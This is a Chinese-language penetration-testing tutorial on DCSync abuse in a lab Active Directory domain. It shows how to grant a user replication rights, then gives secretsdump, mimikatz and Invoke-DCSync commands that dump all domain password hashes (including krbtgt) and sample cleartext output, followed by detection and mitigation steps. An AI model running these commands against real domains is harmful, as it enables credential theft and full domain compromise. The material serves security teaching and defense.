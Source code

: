 ```yaml
---
title: DCSync 滥用
published: 2024-10-06
description: "DCSync域控数据同步复制滥用"
image: ""
tags: ["Domain", "Windows", "Pentest"]
category: Windows
draft: false
---
```

# 概览

[DCSync 介绍](#dcsync-介绍)

[修改DCSync ACL](#修改dcsync-acl)

[DCSync 攻击](#dcsync-攻击)

[DCSync 防御](#dcsync-防御)

# DCSync 介绍

DCSync 通过[Directory Replication Service(目录复制服务)](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/06205d97-30da-4fdc-a276-3fd831b272e0)的GetNCChanges接口向域控发起数据同步请求，获取指定域控上的活动目录数据。目录复制服务是一种用于在活动目录中复制和管理数据的RPC协议，协议由drsuapi和dsaop。

## 修改DCSync ACL

windows中**administrators组，domain admins组，Enterprise admins组**拥有DCSync权限，使用以下命令查询域内拥有DCSync权限的用户

```bash
AdFind.exe -s subtree -b "DC=xie,DC=com" -sdna nTSecurityDescriptor -sddl+++ -sddlfilter ;;;"Replicating Directory Chan
 ges";; -recmute
```

DCSync权限涉及三个ACE：

- [Replicating Directory Changes All](https://learn.microsoft.com/en-us/windows/win32/adschema/r-ds-replication-get-changes-all)：复制域内敏感数据的访问控制权限，Rights-GUID为1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
- [DS-Replication-Get-Changes](https://learn.microsoft.com/en-us/windows/win32/adschema/r-ds-replication-get-changes)：复制指定域或其他目录分区的访问控制权限，Rights-GUID为1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
- Replicating Directory Changes In Filtered Set：允许 Active Directory 复制特定对象的更改，而不是整个目录。Rights-GUID为89e95b76-444d-4c62-991a-0facbeda640c

可以通过域控给予指定用户DCSync权限，依次打开**Active Directory用户和计算机->查看->高级功能->**，找到域控xie.com，右键打开属性->安全->高级->添加->选择主体，指定一个用户hack，确认后下方勾选**复制目录更改**和**复制目录更改所有项**，最后应用即可

可以看到hack用户已经具有了DCSync权限
```bash
AdFind.exe -s subtree -b "DC=xie,DC=com" -sdna nTSecurityDescriptor -sddl+++ -sddlfilter ;;;"Replicating Directory Chan
ges";;XIE\hack -recmute

#Using server: WIN-HSTT0ETJU78.xie.com:389
#Directory: Windows Server 2012 R2

#dn:DC=xie,DC=com
#>nTSecurityDescriptor: [DACL] OBJ ALLOW;[CONT INHERIT];[CTL];Replicating Directory Changes;;XIE\hack
#>nTSecurityDescriptor: [DACL] OBJ ALLOW;[CONT INHERIT];[CTL];Replicating Directory Changes All;;XIE\hack

...
```

也可以用powershell脚本[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)赋予用户DCSync权限

```bash
Import-Module .\PowerView.ps1
Add-DomainObjectAcl -TargetIdentity "DC=xie,DC=com" -PrincipalIdentity hack -Rights DCSync -Verbose
```

# DCSync 攻击

如果获取了凭据的用户拥有DCSync权限，就可以用工具导出域用户的hash

```bash
python secretsdump.py xie/hack:'Abcd@1234'@10.0.0.133 -just-dc
```

```bash
mimikatz.exe "lsadump::dcsync /domain:xie.com /user:test /csv" "exit"
mimikatz.exe "lsadump::dcsync /domain:xie.com /all /csv" "exit"
```

[Invoke-DCSync](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-DCSync.ps1),[ft(Format Table)](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/format-table?view=powershell-7.4)
```bash
Import-Module .\Invoke-DCSync.ps1
Invoke-DCSync -DumpForest | ft -wrap -autosize
Invoke-DCSync -DumpForest -User @{"krbtgt"} | ft -wrap -autosize
```

:::tip

当用户属性中勾选了**使用可逆加密存储密码**，当用户再次修改密码时，secretsdump.py将能导出明文密码

:::

```shell
python secretsdump.py xie/hack:'Abcd@1234'@10.0.0.133 -just-dc-user User1

#[*] ClearText passwords grabbed
#xie.com\User1:CLEARTEXT:Abcd!1234
```

# DCSync 防御

- 配置网络安全设备过滤流量
- 设置白名单，指定ip的域控能够进行目录复制
- 检测DCSync 滥用
> 1. 通过网络设备监控来自白名单外的ip的域控数据同步请求
> 2. 使用[ACLight](https://github.com/cyberark/ACLight.git)来检测域内具有DCSync权限的用户，在Result文件夹的**Privileged Accounts - Irregular Accounts.csv**查看是否有DCSync权限用户
>```bash
>.\Execute-ACLight2.bat
>```
> 3. 检测出来后移除该权限即可
>```
>Import-Module PowerView.ps1
>Remove-DomainObjectAcl -TargetIdentity "DC=xie,DC=com" -PrincipalIdentity hack -Rights DCSync
>```


